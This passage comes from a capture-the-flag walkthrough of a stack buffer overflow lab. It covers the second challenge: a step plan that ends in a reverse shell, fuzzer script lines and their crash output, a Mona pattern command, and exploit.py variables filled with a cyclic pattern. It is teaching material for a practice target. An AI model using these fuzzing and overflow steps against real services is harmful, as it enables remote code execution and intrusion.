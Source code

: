 We have our reverse shell connected, and can confirm our exploit worked.

I tried to explain that process is as much detail as possible, so hopefully it makes sense and you'll be able to do the next 9 challenges on your own!

Just to be sure I'll do one more with you, but just summarise the steps.

## Task 3 - Overflow 2

Here's the plan:

```text
1. Find how many characters we need to send to cause the buffer overflow.
2. Find which characters are considered bad.
3. Find address of ESP.
4. Create shellcode.
5. Assemble script, execute and get our reverse shell.
```

Ok, let's go. And make sure you remember to restart ocsp.exe on your Win7 VM each time between the steps.

First change fuzzer.py so it points to OVERFLOW2:

```text
s.recv(1024)
print("Fuzzing with %s bytes" % len(string))
s.send("OVERFLOW2 " + string + "\r\n")
s.recv(1024)
s.close()
```

Run and see where we crash the program:

```text
root@kali:/home/kali/thm/bofprep# python fuzzer.py 
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Could not connect to 192.168.0.11:1337
```

Create unique pattern with Mona for 800 characters:

```text
!mona pattern_create 800
```

Change exploit.py to point to OVERFLOW2 and use the unique pattern from Mona:

```text
prefix = "OVERFLOW2 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5A<SNIP>y3Ay4Ay5Ay6Ay7Ay4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba"
postfix = ""
```
